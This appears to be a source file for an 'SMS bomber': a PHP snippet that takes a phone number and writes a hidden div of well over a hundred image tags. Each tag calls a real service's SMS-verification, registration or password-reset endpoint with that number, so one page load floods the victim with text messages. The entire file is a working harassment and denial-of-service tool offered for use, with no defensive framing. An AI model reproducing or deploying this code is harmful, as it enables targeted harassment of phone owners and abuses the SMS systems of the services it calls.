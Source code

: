SMS_BOMB
========

短信轰炸API
<code>




<?php
$tel_no=__PhoneNumber__;
?>

<div style='display:none'>
<img src='http://member.1688.com//member/ajax/send_identity_code_by_mobile.do?callback=jQuery172007067019236274064_1376100939244&mobile=<?php echo $tel_no;?>&area=86&isBizMobile=true' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=1376044348191' alt=''/>
<img src='http://authleqr.sdo.com/lars/send-login-validate-code.jsaonp?callback=jQuery16206594030656120524_1341237419373&userId=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=135&userid=<?php echo $tel_no;?>' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=1376099658512' alt=''/>
<img src='http://i.360.cn/smsApi/sendsmscode?account=<?php echo $tel_no;?>&condition=2&r=0.8326570473673853&callback=QiUserJsonP1354551431282' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=137606625123' alt=''/>
<img src='http://passport.cnyw.net//ajax.php?action=getverify&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.kunlun.com/?act=ajax.registGetMobileCode&mobile=<?php echo $tel_no;?>&type=regist' alt=''/>
<img src='http://www.vko.cn/sendmobile.html?phone=<?php echo $tel_no;?>&{}&_=1355879411734' alt=''/>
<img src='http://www.66call.com/register.aspx?__EVENTTARGET=&__EVENTARGUMENT=&__LASTFOCUS=&__VIEWSTATE=%2FwEPDwUKLTYzNzEwOTYxOA9kFgJmD2QWDAIFDw8WAh4EVGV4dAULMTU5NTAxMjgwMzZkZAIHDw8WBh8ABQblj6%2FnlKgeCENzc0NsYXNzBQ5yX2NfY19yX2NoZWNrMR4EXyFTQgICZGQCDQ8PZBYCHgV2YWx1ZQUJamlhbmdsaWxpZAIPDw8WBh8ABQbpgJrov4cfAQUOcl9jX2Nfcl9jaGVjazEfAgICZGQCEQ8PZBYCHwMFCWppYW5nbGlsaWQCEw8PFgYfAAUG6YCa6L%2BHHwEFDnJfY19jX3JfY2hlY2sxHwICAmRkGAEFHl9fQ29udHJvbHNSZXF1aXJlUG9zdEJhY2tLZXlfXxYCBQxJbWFnZUJ1dHRvbjEFDEltYWdlQnV0dG9uMoC6NmiwUtO9MaSDo%2BblDqWjloj5&txtact=<?php echo $tel_no;?>&hidfoc=&hidisOk=1&txtpwd=jianglili&txtrepwd=jianglili&txtcode=&ImageButton1.x=59&ImageButton1.y=11' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=<?php echo $tel_no;?>' alt=''/>
<img src='http://register.sdo.com/gaea/SendPhoneMsg.ashx?page=REG&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.easou.com/sms.e?name=%e8%93%9d%e8%93%9d%e5%a4%a9%e7%a9%ba&mobile=<?php echo $tel_no;?>&action=sms&usid=9&' alt=''/>
<img src='http://www.gewara.com/ajax/mobile/register.xhtml?mobile=<?php echo $tel_no;?>&captchaId=&captcha=' alt=''/>
<img src='http://w.sohu.com/t2/tologin.do?mnd=<?php echo $tel_no;?>&qr=1' alt=''/>
<img src='http://www.66call.com/register.aspx?__EVENTTARGET=&__EVENTARGUMENT=&__LASTFOCUS=&__VIEWSTATE=%2FwEPDwUKLTYzNzEwOTYxOA9kFgJmD2QWDAIFDw8WAh4EVGV4dAULMTU5NTAxMjgwMzZkZAIHDw8WBh8ABQblj6%2FnlKgeCENzc0NsYXNzBQ5yX2NfY19yX2NoZWNrMR4EXyFTQgICZGQCDQ8PZBYCHgV2YWx1ZQUJamlhbmdsaWxpZAIPDw8WBh8ABQbpgJrov4cfAQUOcl9jX2Nfcl9jaGVjazEfAgICZGQCEQ8PZBYCHwMFCWppYW5nbGlsaWQCEw8PFgYfAAUG6YCa6L%2BHHwEFDnJfY19jX3JfY2hlY2sxHwICAmRkGAEFHl9fQ29udHJvbHNSZXF1aXJlUG9zdEJhY2tLZXlfXxYCBQxJbWFnZUJ1dHRvbjEFDEltYWdlQnV0dG9uMoC6NmiwUtO9MaSDo%2BblDqWjloj5&txtact=<?php echo $tel_no;?>&hidfoc=&hidisOk=1&txtpwd=zhasini&txtrepwd=zhasini&txtcode=&ImageButton1.x=59&ImageButton1.y=11' alt=''/>
<img src='http://wap.dm.10086.cn/X/o/3455101/447117/mva0?a=/enduser/querySMSValiCodeByWap20.action&templateDir=template&theme=simple&name=querySMSValiCode&id=querySMSValiCode&downId=&operateType=1&isPass=true&user.accountName=<?php echo $tel_no;?>&Submit=%E4%B8%8B%E4%B8%80%E6%AD%A5' alt=''/>
<img src='http://a.10086.cn/pams2/s/s.do?c=204&j=l&lpt=1&mobile=<?php echo $tel_no;?>&p=72' alt=''/>
<img src='http://read.10086.cn/www/firstpage/getValidateCode.action?phone=<?php echo $tel_no;?>&sf=0' alt=''/>
<img src='http://read.10086.cn/www/NiceNameAjax?msisdn=<?php echo $tel_no;?>&e_cm=cmmobile' alt=''/>
<img src='https://cmpay.10086.cn/service/send_chk_no.xhtml?REG_MBL_NO=<?php echo $tel_no;?>&SMS_CD=URM001&typ=Y&r=0.9636801626045905' alt=''/>
<img src='https://feixin.10086.cn/account/RegisterLv3Ajax?stype=m&stext=<?php echo $tel_no;?>' alt=''/>
<img src='http://my.feixin.10086.cn/password/findpasswordvalidate?type=0&account=<?php echo $tel_no;?>' alt=''/>
<img src='http://218.206.191.106/idm/usermgr/usernameCheck?mobilePhone=<?php echo $tel_no;?>' alt=''/>
<img src='http://go.10086.cn/index.do?method=doReg&mobile=<?php echo $tel_no;?>&source=reg' alt=''/>
<img src='http://www.keepc.com/registerForMobileForCode.act?mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.cmread.com/sso/oauth2/msisdnRegister?e_l=1&amp;f=7718&amp;pg=221&msisdn=<?php echo $tel_no;?>&passwd=1415926' alt=''/>
<img src='https://passport.jd.com/emReg/isMobileEngaged?mobile=<?php echo $tel_no;?>&r=0.08241349037594953' alt=''/>
<img src='http://shoujibao.net/pams2/m/s.do?j=l&c=31879&p=73&mobile=<?php echo $tel_no;?>&password=1415926' alt=''/>
<img src='http://club.service.autohome.com.cn/Ashx/CreateMobileCode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.huggieshappyclub.com/Handler/Vcode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.buidq.com/wap/webcallService.aspx?tel=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.uwewe.com/get/IsUser.aspx?phone=<?php echo $tel_no;?>&quhao=86' alt=''/>
<img src='http://www.uwewe.com/get/SendMessage.aspx?phone=<?php echo $tel_no;?>&ccode=86&type=1' alt=''/>
<img src='http://www.66call.com/forgetpwd.aspx?ScriptManager1=UpdatePanel1|ImageButton2&__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwULLTExMjY2ODE5MTgPFgYeCFRpbWVTcGFuBqpmMwD38M%2BIHgRjb2RlBQQ0MjY1HgRhY2N0BQsxNTgzODgwMjA0MmQYAQUeX19Db250cm9sc1JlcXVpcmVQb3N0QmFja0tleV9fFgMFDEltYWdlQnV0dG9uMgUMSW1hZ2VCdXR0b24xBQxJbWFnZUJ1dHRvbjPdI0AXCiz2XIYks0CPZpmkSSEMDg%3D%3D&txtacct=<?php echo $tel_no;?>&txtcode=7426&txtpwd=&txtrepwd=&ImageButton2.x=76&ImageButton2.y=18' alt=''/>
<img src='http://www.wcall.net/ajax/send_captcha.jsp?mobile=86<?php echo $tel_no;?>' alt=''/>
<img src='http://www.uwewe.com/wap/reg.aspx?__VIEWSTATE=%2FwEPDwUKLTg3MDQ4MjcyNGRkTWAEkK5GOtWg8l1At7LuQLJsrtk%3D&__EVENTVALIDATION=%2FwEWBwLf79jTDQL7h7XWDwKd%2B7q4BwLinreAAgLChPzDDQK7q7GGCAKM54rGBiIS9Dt7i1j1h%2BDtH9EcyHIWJVZf&txtacct=<?php echo $tel_no;?>&txtpwd=&txtRepwd=&txtCode=&Button2=%E8%AF%AD%E9%9F%B3%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81' alt=''/><img src='http://www.gewara.com/ajax/mobile/register.xhtml?mobile=<?php echo $tel_no;?>&captchaId=&captcha=' alt=''/>
<img src='http://www.gewara.com/checkMember.xhtml?tag=mobile&itemvalue=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.dianping.com/ajax/json/account/reg/mobile/send?m=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.ushi.com/openRegU!checkNumber.jhtml?basicProfile.mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.efala.net/newfindpwbysms.flow?byname=<?php echo $tel_no;?>' alt=''/>
<img src='http://zj.189.cn/zjpr/member/authentication/sendValidatePhone.html?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://weibo.com/signup/v5/formcheck?type=mobile&value=<?php echo $tel_no;?>&__rnd=1363496469546' alt=''/>
<img src='http://api.open.uc.cn/cas/register/mobi/resendVCode?uc_param_str=einisivelafrpf&client_id=20033&from=cas&mobi=<?php echo $tel_no;?>' alt=''/>
<img src='http://ptlogin.4399.com/ptlogin/sendRegPhoneCode.do?phone=<?php echo $tel_no;?>&appId=www_home&v=1&v=1' alt=''/>
<img src='http://i.youku.com/u/bindMobile?__rt=1&__ro=&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='https://safe.renren.com/actions/changesafemobile/sendmobilecaptcha?ajax-type=json&token=1ZhR7iv65SgaNXliuA7mujgTO3s3k1CL&mobile=<?php echo $tel_no;?>&requestToken=496404876&_rtk=e95787e6' alt=''/>
<img src='http://club.service.autohome.com.cn/Ashx/CreateMobileCode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://service.zol.com.cn/user/ajax/sendMsgCode.php?phone=<?php echo $tel_no;?>' alt=''/>
<img src='https://login.vancl.com/login/BeginRegister.ashx?action=sendmobilecode&key=<?php echo $tel_no;?>&validatecode=&_=1363498730859' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=check&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.cntv.cn/mobileRegister.do?msisdn=<?php echo $tel_no;?>&verfiCodeType=1&method=getRequestVerifiCode' alt=''/>
<img src='http://register.zhenai.com/register/validateMobile.jsps?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.jiayuan.com/libs/xajax/reguser.server.php?processSendOrUpdateMessage&xajax=processSendOrUpdateMessage&xajaxargs%5B%5D=%3Cxjxquery%3E%3Cq%3Emobile%3Dd$%3C%2Fq%3E%3C%2Fxjxquery%3E&xajaxargs%5B%5D=mobile&xajaxr=1363500615734' alt=''/>
<img src='https://passport.jd.com/emReg/sendMobileCode?mobile=<?php echo $tel_no;?>&r=0.9010949897739119' alt=''/>
<img src='https://member.suning.com/emall/SNCellPhoneRegisterCmd?actionType=reSendValCode&logonId=<?php echo $tel_no;?>&URL=SNUserRegisterComfirmView&_=1363500974671' alt=''/>
<img src='http://account.iqiyi.com/security/secret/mobile/adm.action?time=1363501090218&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.skywldh.com/registerForMobileForCode.act?mobileNo=<?php echo $tel_no;?>&smSecurityCode=' alt=''/>
<img src='http://wap.skywldh.com/index.php?register&flag=flag&phone=<?php echo $tel_no;?>&mss=on' alt=''/>
<img src='http://zg51.net/web/customer/forgetPwd_up.asp?customermobile=<?php echo $tel_no;?>&verify=01f735f97f1af959&checkcodeflag=1' alt=''/>
<img src='http://www.qqvoice.com/free/getExpCode.do?_isAjaxRequest=true&phonemail=<?php echo $tel_no;?>&type=1&randvalue=' alt=''/>
<img src='http://www.feiin.com/findAccountInfoByAccount.act?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.feiin.cn/index.php?register?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.feiin.cn/bindMobileCode.act?account=<?php echo $tel_no;?>&quhao=0086' alt=''/>
<img src='http://www.139talk.com/user/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/invitesms.html?phone=<?php echo $tel_no;?>&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/register.html?p=cGhvbmV8MTU4Mzg4MDIwNDJ8Y2hrY29kZXw4OTczfGRhdGV8MjAxMy0wMy0xNw==' alt=''/>
<img src='http://www.139talk.com/download/smsdownload.html?popPhone=<?php echo $tel_no;?>&phoneType=Iphone&popKey=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.159talk.com/user/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=h5u9albk8oveqm17rfo6kvo226' alt=''/>
<img src='http://my.tv.sohu.com/user/reg/getmstatus.do?passport=<?php echo $tel_no;?>' alt=''/>
<img src='http://sso.letv.com/user/mobileRegCode/mobile/<?php echo $tel_no;?>/mobilecodeletvid/k961601363512388' alt=''/>
<img src='http://register.sdo.com/gaea/SendPhoneMsg.ashx?page=REG&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://download.feixin.10086.cn/download/downloadFLToMobile.action?id=50&no=<?php echo $tel_no;?>&isCheckCode=1' alt=''/>
<img src='http://my.feixin.10086.cn/password/sendfindpasswordsms?MobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://f.10086.cn/im5/register/checkMobile.action?mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://zc.qq.com/cgi-bin/bd/send_sms?acc=<?php echo $tel_no;?>&bkn=1656136920&v=0.6187287989762199' alt=''/>
<img src='http://weibo.com/signup/v5/formcheck?type=sendsms&value=<?php echo $tel_no;?>&__rnd=1364610012046http://hm.baidu.com/hm.gif?cc=1&ck=1&cl=16-bit&ds=1280x800&ep=%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81*%E7%82%B9%E5%87%BB&et=4&fl=11.6&ja=1&ln=zh-cn&lo=0&nv=1&rnd=2125197633&si=4cd143d67831005438c65f586314c582&st=3&su=http://club.autohome.com.cn%2Fbbs%2Fthread-c-148-2031217-1.html&v=1.0.40&lv=1&api=8_0&tt=%E7%94%A8%E6%88%B7%E6%B3%A8%E5%86%8C_%E6%B1%BD%E8%BD%A6%E4%B9%8B%E5%AE%B6' alt=''/>
<img src='https://www.qianwang365.com/uc/ajax/obtainSecurityCode4Regist.html?username=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.efala.net/getcode.flow?phone=<?php echo $tel_no;?>&cardno=&code=&' alt=''/>
<img src='http://passport.wanmei.com/NoteAction.do?method=sendRegCode&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://biz.b2b.cn/member/SendCode.ashx?temptime=1365067755281&m=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.kunlun.com/index.php?act=ajax.checkUsername&user_name=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.email.163.com/unireg/call.do?cmd=added.mobileverify.sendAcode&mobile=<?php echo $tel_no;?>&uid=<?php echo $tel_no;?>%40163.com&mark=mobile_start' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://user.syyx.com/ajax/users/checkusername.aspx?u=<?php echo $tel_no;?>&r=0.42031912299903756' alt=''/>
<img src='http://www.keepc.com/findAccountInfoByAccount.act?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://service.zol.com.cn/user/ajax/sendMsgCode.php?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://gwpassport2.woniu.com/v2/checkusername?jsoncallback=jQuery172013263149083391296_1365068016801&username=<?php echo $tel_no;?>&_=1365068030671' alt=''/>
<img src='http://passport.upaidui.com/mobiles/send_validation_code?mobile_number=<?php echo $tel_no;?>' alt=''/>
<img src='http://user.51wan.com/reg_index_check_0.html?type=username&is=mobile&username=<?php echo $tel_no;?>' alt=''/>
<img src='http://interface.game.renren.com/ActivityCenter/?catalog=plugins&gameid=all&aname=reg&method=reg.subUserInfo&mobile=<?php echo $tel_no;?>&callback=jQuery17204292543791520399_1365068164751&_=1365068180406' alt=''/>
<img src='http://my.xoyo.com/register/NewIsExist/?uid=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=0.016777698590329404&userid=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.changyou.com/register/checkPhoneIsUsed.do?securityPhone=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.game5.com/member/sendRegisterVerifyCode?reg_mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.kongzhong.com/acc.do?m=sendPhoneVcodeFast&callback=jQuery17200752385214847075_1364445730228&phone=<?php echo $tel_no;?>&smsvcode=%E8%BE%93%E5%85%A5%E6%89%8B%E6%9C%BA%E8%8E%B7%E5%8F%96%E7%9A%84%E9%AA%8C%E8%AF%81%E7%A0%81&_=1364445764320' alt=''/>
<img src='http://www.pceggs.com/myaccount/mobile_ajax.aspx?refresh=0&i_mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.9dapai.com/SMSAuthentication/SMSAuthenticationPage.aspx/btnGenerateCheckCode_Click?(Content)=%7Bcellnum%3A'<?php echo $tel_no;?>'%7D' alt=''/>
<img src='http://www.veryzhun.com/ajax/register.asp?mobile=<?php echo $tel_no;?>&areacode=86' alt=''/>
<img src='http://wap.callda.com/register_2.jsp?phoneNumber=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.200call.com/index.php?action=vphone?uphone=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.12580call.cn/index.php?register&phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://w.yunpan.360.cn/intf.php?method=Sms.issue&qid=177256015&devtype=box&v=1.9.2.1245&devid=5b5b55bfc9f1f3113963b1f1350adc65&devname=&rtick=6969759&sign=aa8d029e8036f3f9d555956388dc4c57&ofmt=xml&pid=home&mobile=<?php echo $tel_no;?>&contype=mdu&token=3708649921.6.95535003.177256015.1366401362' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=0.6334787302703851&userid=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.17u.cn/Member/RegisterHandler.ashx?action=phone&phone=<?php echo $tel_no;?>&iid=0.6011805873638694' alt=''/>
<img src='http://3g.163.com/t/signup.do?mobile=<?php echo $tel_no;?>&sub=%E8%8E%B7%E5%8F%96%E5%AF%86%E7%A0%81%E7%9F%AD%E4%BF%' alt=''/>
<img src='http://m.mail.163.com/reg.s?regtype=mobile&method=registerMobile&mobile_num=<?php echo $tel_no;?>&password=testtest&password2=testtest&action=%E6%8F%90%E4%BA%A4%E6%B3%A8%E5%86%8C%E4%BF%A1%E6%81%AF=400' alt=''/>
<img src='http://account.jzyx.com/common/send-sms.html?tel=<?php echo $tel_no;?>' alt=''/>
<img src='http://t.sdo.com/home/SendSms?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://txz.sdo.com/common/msgsend/?m=<?php echo $tel_no;?>&t=2&method=SendAPPDownLoadSMSCallback&fromid=weblogin&r=0.9407026621045355' alt=''/>
<img src='https://mcas.sdo.com/authen/checkAccountType.jsonp?callback=checkAccountType_JSONPMethod&inputUserId=<?php echo $tel_no;?>' alt=''/>
<img src='http://authleqr.sdo.com/lars/check-account-types.jsonp?callback=jQuery16202903677772887056_1353757072377&userId=<?php echo $tel_no;?>&_=1353757193062' alt=''/>
<img src='https://reg.95538.cn/userreg/AjaxHandler.ashx?method=getPhoneCode?mobilePhone=<?php echo $tel_no;?>&type=0' alt=''/>
<img src='http://u.baidu.com/?module=default&controller=Reg&action=sendSMS&b1350745948890=1&mobile=<?php echo $tel_no;?>&appid=3&ucname=huisexinxi' alt=''/>
<img src='http://as.baidu.com/a/msg?act=sendtomobile&f=topic_3001_2_0&mobile=<?php echo $tel_no;?>&docid=1439803&ctime=1353852949890' alt=''/>
<img src='http://as.baidu.com/a/msg?act=sendtomobile&f=web_alad_6%40next%40software_1003_6&mobile=<?php echo $tel_no;?>&docid=1346020&ctime=1350747592671' alt=''/>
<img src='http://api.pengyou.com/json.php?mod=mobilebind&act=sendsms&mobile=<?php echo $tel_no;?>&g_tk=null' alt=''/>
<img src='http://www.maiduo.com/handler/Register/Register.ashx?act=check&mobile=<?php echo $tel_no;?>&checkCode=undefined' alt=''/>
<img src='http://www.sinosig.com/auth/regist_resetMsg.action?sso_userName=<?php echo $tel_no;?>&isAjaxSubmit=true' alt=''/>
<img src='http://www.pubyun.com/accounts/signup_vcode/4449056/?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://dealer.autohome.com.cn/Handler/SendMessage.ashx?action=sendcode&mob=<?php echo $tel_no;?>' alt=''/>
<img src='http://yuyue.shdc.org.cn/User/ajaxSendConfirmCode.aspx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.ztgame.com/registe/mobilePhoneRegister?type=isBindPhoneNum&phoneNum=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.baixing.com/ajax/auth/sendCode/?type=resetPassword&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://mail.sina.com.cn/cgi-bin/phonecode.php?phonenumber=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.q.com.cn/register/index/ajaxcheckmobile/?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://yun.baidu.com/account/v1/api/sendacodenormal?dest=<?php echo $tel_no;?>' alt=''/>
<img src='https://reg.passport.the9.com/api/chk_loginname?loginname=<?php echo $tel_no;?>&accounttype=reg_mobile' alt=''/>
<img src='https://login.sina.com.cn/signup/check_user.php?format=json&from=mobile&name=<?php echo $tel_no;?>' alt=''/>
<img src='http://js.ac.10086.cn/jsauth/reg?method=sendVerCode&=<?php echo $tel_no;?>' alt=''/>
<img src='http://my.xoyo.com/register/isExist/0.8101254514227967?uid=<?php echo $tel_no;?>&type=mobile' alt=''/>
<img src='http://member.changyou.com/register/checkPhoneIsUsed.do?securityPhone=<?php echo $tel_no;?>' alt=''/>
<img src='https://reg.91.com/AjaxAction/AC_register.ashx?action=verifyusernameofmobile&txtUserNameOfMobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://211.136.93.21/hfwebbusi/pay/saveOrder.do?mobileId=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.wanmei.com/NoteAction.do?method=sendRegCode?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://authleqr.sdo.com/lars/check-account-types.jsonp?callback=jQuery16203658856788579764_1366925187811&userId=<?php echo $tel_no;?>&_=1366925195670' alt=''/>
<img src='http://www.guahao.com/validcode/json/mobile/<?php echo $tel_no;?>/REG_MOBILE/cebaf071614ac29f9ad6c692b474a46f?_=1366925898545' alt=''/>
<img src='http://chinatelecom.zc.qq.com/cgi-bin/send_sms?phonenum=<?php echo $tel_no;?>&stype=1' alt=''/>
<img src='http://cas.sdo.com/authen/sendPhoneCheckCode.jsonp?callback=sendPhoneCheckCode_JSONPMethod&inputUserId=<?php echo $tel_no;?>&type=3&appId=201&areaId=0&serviceUrl=' alt=''/>
<img src='http://sdo.com&productVersion=v5&frameType=3&locale=zh_CN&version=21&tag=20&authenSource=2&productId=2&_=1366924349498' alt=''/>
<img src='http://www.1732.com/public/ajax.aspx?app=resendcode&bindaccount=<?php echo $tel_no;?>' alt=''/>
<img src='http://sign.kting.cn/register/getphoneverify/phone/<?php echo $tel_no;?>' alt=''/>
<img src='http://m.xs8.cn/user/quick_signup.html?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://bbs.360che.com/ajax1.php?action=ds21&mobilenum=<?php echo $tel_no;?>&inajax=1&ajaxtarget=ts' alt=''/>
<img src='http://pass.ledu.com/reg/mobilecode?type=reg&mobile=<?php echo $tel_no;?>&r=0.7577109599155907' alt=''/>
<img src='http://www.52callme.com/Handler/SendVerifyCodeHandler.ashx?m=<?php echo $tel_no;?>' alt=''/>
<img src='http://sso.letv.com/user/mobileRegCode/mobile/<?php echo $tel_no;?>/mobilecodeletvid/c326961366927138' alt=''/>
<img src='http://www.sinosig.com/auth/regist_refresh.action?sso_userName=<?php echo $tel_no;?>&resetSend=1' alt=''/>
<img src='https://sn.ac.10086.cn/sendMsgRequest?mobileNumber=<?php echo $tel_no;?>' alt=''/>
<img src='https://fj.ac.10086.cn/SMSCodeSend?mobileNum=<?php echo $tel_no;?>&validCode=0000&errorurl=https://fj.ac.10086.cn/4login/errorPage.jsp&name=menhu' alt=''/>
<img src='https://fj.ac.10086.cn/SMSCodeSend?mobileNum=<?php echo $tel_no;?>&validCode=0000&errorurl=http://www.fj.10086.cn:80/service/login/send.jsp' alt=''/>
<img src='https://fj.ac.10086.cn/ssouser/sendMessage.do?mobileno=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.gs.10086.cn/gs_obsh_service/actionDispatcher.do?userMobile=<?php echo $tel_no;?>' alt=''/>
<img src='https://sn.ac.10086.cn/sendMsgRequest?code=%E7%82%B9%E5%87%BB%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81&mobileNumber=<?php echo $tel_no;?>' alt=''/>
<img src='https://js.ac.10086.cn/jsauth/dzqd/pagSendDypass?umobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://gd.10086.cn/ngcrm/hall/SendRandomSms.action?mobile=<?php echo $tel_no;?>&isReRequest=false' alt=''/>
<img src='http://liao.189.cn/ECP-Portals/phoneDown/download.do?phone=<?php echo $tel_no;?>' alt=''/>
<img src='https://ecplive.cn/reg/servlet/ivrInvokeServlet?number=<?php echo $tel_no;?>&flagNum=3' alt=''/>
</div>
</code>
